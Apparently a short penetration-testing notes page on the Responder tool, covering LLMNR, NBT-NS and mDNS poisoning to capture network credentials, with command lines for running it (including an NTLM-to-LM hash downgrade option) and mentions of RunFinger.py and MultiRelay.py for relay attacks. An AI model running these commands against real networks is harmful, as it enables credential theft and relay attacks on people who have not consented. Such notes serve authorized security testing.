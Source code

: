 Responder is a sniffing tool used **to gain vulnerable credentials from network traffic, including those sent over SMB, HTTP, and other protocols**. Responder is also an LLMNR, NBT-NS, and MDNS poisoner.
```bash
$ nano /usr/share/responder/Responder.conf # Configure Responder
```

```bash
$ responder -I <Iface> #Default conf
$ responder -I <Iface> --lm #Default conf, attempt to downgrade NTLM hashes to LM hashes
$ responder -I <Iface> -P -r -v #More chances but might break things
```

# Additional tools 
/usr/share/responder/tools
Additional scripts 
* `Runfinger.py` check if `SMB signing` hash been disabled on attacked station. (Required for attack to work)
* `MultiRelay.py`
# Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks
https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks


